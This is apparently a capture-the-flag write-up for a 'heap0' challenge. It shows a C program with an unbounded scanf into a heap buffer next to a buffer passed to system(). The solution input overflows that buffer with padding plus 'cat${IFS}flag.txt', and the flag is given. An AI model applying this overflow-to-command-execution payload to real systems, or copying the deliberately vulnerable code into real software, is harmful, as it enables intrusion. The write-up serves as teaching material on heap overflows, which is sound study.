 # heap0

Both a binary and a C source file were given.

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>


int main(void) {
	char* username = malloc(50);
	char* shell = malloc(50);
	
	printf("username at %p\n", username);
	printf("shell at %p\n", shell);
	
	strcpy(shell, "/bin/ls");
	
	printf("Enter username: ");
	scanf("%s", username);
	
	printf("Hello, %s. Your shell is %s.\n", username, shell);
	system(shell);
	
	return 0;
}
```
We run the program first.

```
username at 0x57606008
shell at 0x57606040
Enter username: i_like_cookies
Hello, i_like_cookies. Your shell is /bin/ls.
flag.txt
heap0
^C
```
It can be seen that two strings, username and shell, have been dynamically allocated on the heap. Their memory addresses were printed out, showing that their locations in memory are adjacent to each other.

**Solution**
```
Enter username: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAcat${IFS}flag.txt
```

**Flag**
```
flag{heap_challenges_are_not_as_scary_as_most_people_think}
```
